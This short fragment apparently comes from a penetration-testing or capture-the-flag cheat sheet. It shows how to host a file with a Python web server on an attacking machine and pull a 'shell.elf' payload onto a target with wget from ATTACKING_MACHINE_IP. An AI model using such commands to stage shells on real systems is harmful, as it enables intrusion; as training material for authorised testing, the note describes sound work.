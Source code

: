 ### Python Web Server:
you can start a Python web server on your attacking machine with the `python3 -m http.server 9000` command and use `wget http://ATTACKING_MACHINE_IP:9000/shell.elf` to download it to the target machine
